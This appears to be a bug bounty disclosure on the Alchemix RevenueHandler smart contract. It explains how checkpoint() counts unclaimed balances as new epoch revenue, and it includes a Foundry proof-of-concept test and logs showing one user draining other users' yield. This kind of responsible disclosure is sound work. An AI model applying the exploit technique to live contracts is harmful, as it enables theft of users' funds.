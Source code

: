 
# `RevenueHandler` counts unclaimed tokens as new revenue

Submitted on May 12th 2024 at 11:02:22 UTC by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31077

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
The `RevenueHandler` contract has a `checkpoint()` function that records revenue amounts for each token in each epoch. There is a mistake in the logic of non-alchemic tokens, because it assumes the entire token balance is new revenue for the epoch. This is wrong because the token balance includes pending revenue from previous epochs that have not yet been claimed. This allows users to claim more tokens than they should, which steals tokens from other users who try to claim later.

## Vulnerability Details
The `checkpoint()` function in `RevenueHandler` contains the following code snippet:


```solidity
uint256 thisBalance = IERC20(token).balanceOf(address(this));

// If poolAdapter is set, the revenue token is an alchemic-token
if (tokenConfig.poolAdapter != address(0)) {
    // Treasury only receives revenue if the token is an alchemic-token
    treasuryAmt = (thisBalance * treasuryPct) / BPS;
    IERC20(token).safeTransfer(treasury, treasuryAmt);

    // Only melt if there is an alchemic-token to melt to
    amountReceived = _melt(token);

    // Update amount of alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
} else {
    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
    amountReceived = thisBalance;

    // Update amount of non-alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][token] += amountReceived;
}
```

Notice that in the `else` case, the `epochRevenues[currentEpoch][token]` amount is incremented by the current token balance. As mentioned above, this is incorrect because the token balance also contains unclaimed revenue from previous epochs. Due to this mistake, the revenues past the first epoch will be inflated, which leads to an inflated `totalClaimable` value in the `_claimable()` function:

```solidity
uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
if (epochTotalVeSupply == 0) continue;
uint256 epochRevenue = epochRevenues[epochTimestamp][token];
uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
```

## Impact Details
Once an epoch has an inflated revenue, a malicious user can call `claim()` to take a large amount of tokens they do not deserve. This is a theft of other users' unclaimed yield. Since the malicious user would receive the tokens, no tokens would be left in the `RevenueHandler` for the other users to claim. See the PoC for an example.

## References
See the PoC below.


## Proof of Concept

I have created the following test case that can be added to `RevenueHandler.t.sol`:


```solidity
function testNonAlchemicRevenueAccountingBug() external {
    uint256 revAmt = 1000e18;
    uint256 tokenId1 = _initializeVeALCXPosition(10e18);
    uint256 tokenId2 = _setupClaimableNonAlchemicRevenue(revAmt, bal);

    _jumpOneEpoch();
    revenueHandler.checkpoint();

    console.log("claimable 1 before:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 before:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance before:", IERC20(bal).balanceOf(address(revenueHandler)));

    revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), address(this));

    console.log("claimable 1 after:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 after:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance after:", IERC20(bal).balanceOf(address(revenueHandler)));

    uint256 claimable2 = revenueHandler.claimable(tokenId2, bal);
    vm.expectRevert("Not enough revenue to claim");
    revenueHandler.claim(tokenId2, bal, address(0),claimable2, address(this));
}
```

Running the command `forge test -vvv --match-test testNonAlchemicRevenueAccountingBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testNonAlchemicRevenueAccountingBug() (gas: 2569923)
Logs:
  claimable 1 before: 1000000000000000000000
  claimable 2 before: 1000000000000000000000
  revenueBalance before: 1000000000000000000000
  claimable 1 after: 0
  claimable 2 after: 1000000000000000000000
  revenueBalance after: 0
```

This shows that the first user can claim 100% of the tokens, preventing the second user from claiming anything.